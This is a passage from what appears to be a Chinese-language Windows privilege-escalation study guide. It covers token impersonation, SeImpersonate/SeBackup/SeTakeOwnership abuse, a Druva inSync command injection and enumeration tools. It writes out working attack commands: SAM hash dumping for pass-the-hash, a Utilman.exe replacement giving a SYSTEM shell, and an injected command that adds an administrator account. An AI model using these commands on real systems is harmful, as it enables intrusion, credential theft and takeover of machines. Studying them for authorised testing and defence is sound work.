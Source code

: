 7.  **滥用令牌和特权 (Abusing Tokens and Privileges)**
    *   **原理**: 利用 Windows 的令牌机制或用户持有的特殊权限 (Privileges) 来提升权限。
    *   **检测**: `whoami /priv` 查看当前用户拥有的特权。
    *   **令牌窃取/模拟 (Token Stealing/Impersonation)**:
        *   **原理**: 获取高权限进程 (如 SYSTEM) 的访问令牌，并模拟该用户执行操作。通常需要 `SeDebugPrivilege` (管理员默认拥有)。
        *   **方法 (Meterpreter)**: `ps` 找到 SYSTEM 进程 PID -> `steal_token <PID>` -> `getuid` 确认 -> 执行命令 -> `rev2self` 恢复。
        *   **方法 (RottenPotatoNG/JuicyPotato/GodPotato)**: 利用 DCOM/RPC 缺陷，在特定服务账户 (如 SeImpersonatePrivilege 持有者) 下运行时，可获取 SYSTEM 令牌。常用于 Web Shell 提权。
    *   **SeImpersonate / SeAssignPrimaryToken 特权**:
        *   **原理**: 允许进程模拟登录到该进程的用户。常见于服务账户 (Local Service, Network Service, IIS AppPool)。
        *   **利用 (RogueWinRM / PrintSpoofer 等)**:
            1.  攻击者控制一个拥有此特权的进程 (如 Web Shell)。
            2.  运行特定工具 (如 RogueWinRM, PrintSpoofer) 监听某个端口或触发某个系统服务。
            3.  诱使系统高权限服务 (如 BITS, Spooler) 连接到攻击者控制的监听器并进行认证。
            4.  攻击者捕获认证，利用 `SeImpersonatePrivilege` 模拟 SYSTEM，执行 Payload。
            5.  **示例 (RogueWinRM)**: `RogueWinRM.exe -p C:\path\to\payload.exe -a "arguments for payload"` (Payload 通常是反弹 Shell)。
    *   **SeBackup / SeRestore 特权**:
        *   **原理**: 允许绕过文件系统 ACL 读取/写入任意文件，用于备份/恢复。
        *   **利用 (导出 SAM/SYSTEM)**:
            1.  需要提升的命令提示符 (Run as administrator 可能触发 UAC，或已 Bypass UAC)。
            2.  备份注册表 Hives: `reg save hklm\sam C:\path\sam.save`, `reg save hklm\system C:\path\system.save`。
            3.  将 `sam.save` 和 `system.save` 文件传回攻击机。
            4.  离线提取哈希: `secretsdump.py -sam sam.save -system system.save LOCAL`。
            5.  使用哈希进行 Pass-the-Hash (PtH) 攻击。
    *   **SeTakeOwnership 特权**:
        *   **原理**: 允许用户获取文件或对象的所有权。
        *   **利用 (替换系统文件，如 Utilman)**:
            1.  需要提升的命令提示符。
            2.  获取文件所有权: `takeown /f C:\Windows\System32\Utilman.exe`。
            3.  授予自己完全控制权限: `icacls C:\Windows\System32\Utilman.exe /grant <YourUsername>:F`。
            4.  备份原文件，然后用 `cmd.exe` 替换: `copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.exe.bak`, `copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe`。
            5.  在登录屏幕点击 "轻松访问 (Ease of Access)" 按钮，将以 SYSTEM 权限打开 CMD。
            6.  完成后恢复原文件。

8.  **利用易受攻击的软件 (Exploiting Vulnerable Software)**
    *   **原理**: 系统上安装的第三方软件可能存在本地权限提升漏洞。
    *   **检测**:
        1.  `wmic product get name, version, vendor` 获取软件列表。
        2.  手动检查桌面、开始菜单、服务列表。
        3.  在 Exploit-DB, Google, CVE Mitre 搜索已知漏洞。
    *   **利用 (示例: Druva inSync <= 6.6.3)**:
        *   **漏洞**: 本地 RPC 服务 (127.0.0.1:6064) 以 SYSTEM 运行，存在命令注入 (通过路径遍历绕过补丁)。
        *   **Exploit**: 使用提供的 PowerShell 脚本或自行构造 RPC 请求，发送恶意命令 (如 `cmd.exe /c "net user hacker pass /add && net localgroup administrators hacker /add"`) 给 RPC 服务执行。

#### 自动化权限提升检查工具 (Automated PrivEsc Check Tools)

*   **WinPEAS**: (在目标机运行) 执行各种检查并高亮显示潜在向量。`.exe` 或 `.bat` 版本。`winpeas.exe > output.txt`。
*   **PrivescCheck**: (在目标机运行) PowerShell 脚本。`Set-ExecutionPolicy Bypass -Scope process -Force; . .\PrivescCheck.ps1; Invoke-PrivescCheck > output.txt`。
*   **WES-NG**: (在攻击机运行) 基于 `systeminfo` 输出建议内核漏洞。`wes.py systeminfo.txt`。
*   **Metasploit**: `use multi/recon/local_exploit_suggester`。
*   **PowerUp**: (PowerShell) `Import-Module .\PowerUp.ps1; Invoke-AllChecks`。
